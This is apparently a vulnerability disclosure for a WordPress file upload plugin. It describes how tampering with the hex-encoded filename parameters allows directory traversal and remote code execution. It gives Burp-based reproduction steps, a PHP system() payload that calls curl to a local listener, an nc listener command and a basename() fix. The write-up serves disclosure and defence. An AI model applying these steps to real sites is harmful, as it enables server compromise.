

## Directory traversal to RCE on WordPress File Upload plugin

### Author: Riccardo Krauter (p4w)
### Twitter: @p4w16
### mail: riccardo.krauter@gmail.com

### Summary:
The parameters `filenames`, `uploadedfile_X_name` used during the POST request on file-upload functionality, are vulnerable to directory traversal.

### Description:
During the file upload functionality the parameters `filenames`, `uploadedfile_X_name` are sended from the client to the application.
The parameters mentioned are hex-encoded and contains the filename which is given from the file a user has picked from their hard dirve. A malicius user can modify these parameters with a <b>directory traversal</b> payload to force the application writing the file outside the choosen upload directory.

### Reproduce the issue:
I will use burp-proxy on my local environment to reproduce the issue. I'm going to exploit the vulnarability and gain Remote Code Execution by uploading a mailicius `txt` file in the `lib` directory.
The plugin will fecth every files from the `lib` directory and include it as we can see in this portion of code.


This is the contents of my lib directrory before the exploitation:


As admin user, create a page with the plugin in it (after that the admin can logut the exploit shuold work without having any privilege on WP):


Browse the previously created page as non logged user and pick a file with the php code to execute from the disk using the plugin:


I used a simple payload that will execute a curl on my machine to myself:
```
<?php system("curl http://localhost:5555/RCE-for-the-win"); ?>
```
Setup a listener on your local machine such as:
```
$ nc -lnvp 5555
```

Prepare the payload, it will go down one directory straring from the `upload`(default one) directory and traversal until the `lib` directory:


Click on `send file` from the web page. Using the intercept on burp-proxy, modify in each requests the `filenames` and the `uploadedfile_X_name` params with the payload shown before (you shuold prepend it to the name already prensent). From now there will be 3 request that you have to modify with the same hex-payload.
Req. 1:


Req. 2:


Req. 3:


Done!!!!
Check out the listener, you should see the curl request coming:


Checking the `lib` directory we should have our malicius txt file in it:


## Fix:
In general let the user control filename is dangerous. In this case maybe you want to use some function such as `basename()`, that help you to get only the filename and not the path.
